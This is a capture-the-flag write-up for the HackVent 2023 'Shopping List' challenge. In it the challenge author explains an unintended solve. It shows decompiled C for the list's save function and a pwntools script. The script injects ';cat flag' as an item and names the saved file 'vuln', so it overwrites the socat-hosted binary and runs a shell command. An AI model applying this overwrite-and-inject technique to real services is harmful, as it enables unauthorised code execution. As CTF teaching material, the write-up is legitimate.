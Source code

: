 # [HV23.21] Shopping List

## Introduction

Difficulty: Hard<br>
Author: Fabi_07

Santa still needs to buy some gifts, but he tends to forget things easily. That's why he created his own application: A shopping list with state-of-the-art hacker protection.

## Solution

Well, I was very happy to see a solve after 20 Minutes, this meant that there was an unintended solution. After looking for way too long for this little mishap, I noticed something peculiar inside the `save` functionality of the shopping list.

```c
case 's':
    if ( itemCount )
    {
        s = (char *)getstr("Filename:");
        if ( strchr(s, '/') )
        {
          puts("hacker detected, you will be reported to the admin.");
          streama = fopen("flag", "w");
          fwrite("I told you not to overstep any boundaries...", 1uLL, 44uLL, streama);
          fclose(streama);
        }
        stream = fopen(s, "w");
        fwrite("# Shopping list\n", 1uLL, 0x10uLL, stream);
        for ( ii = 0; ii <= 99; ++ii )
        {
          if ( *(_QWORD *)(8LL * ii + items) )
            fprintf(
              stream,
              " - %ldx %s\n",
              *(_QWORD *)(*(_QWORD *)(8LL * ii + items) + 16LL),
              **(const char ***)(8LL * ii + items));
        }
        fclose(stream);
        printf("Created File %s.\n\n", s);
        free(s);
    }
    else
    {
        puts("\nPlease add a item to your shopping list first.\n");
    }
    break;
```

It only checks for `/` in the filename, but not for it's own name, we know it's getting hosted with `socat`, so if we just overwrite the binary with our own bash commands, we can do whatever we want.

```py
from pwn import *

rem = remote('152.96.15.6', 1337)
rem.sendlineafter(b' > ', b'a')
rem.sendlineafter(b' > ', b';cat flag')
rem.sendlineafter(b' > ', b'1337')
rem.sendlineafter(b' > ', b's')
rem.sendlineafter(b' > ', b'vuln')
rem.sendlineafter(b' > ', b'q')

rem = remote('152.96.15.6', 1337)
rem.interactive()
```

The above script creates a shopping list looking like this:

```bash
# Shopping list
 - 1337x ;cat flag
```

This oddly enough works to give us the flag

![flag](flag.png)

Flag: `HV23{heap4the_win}`
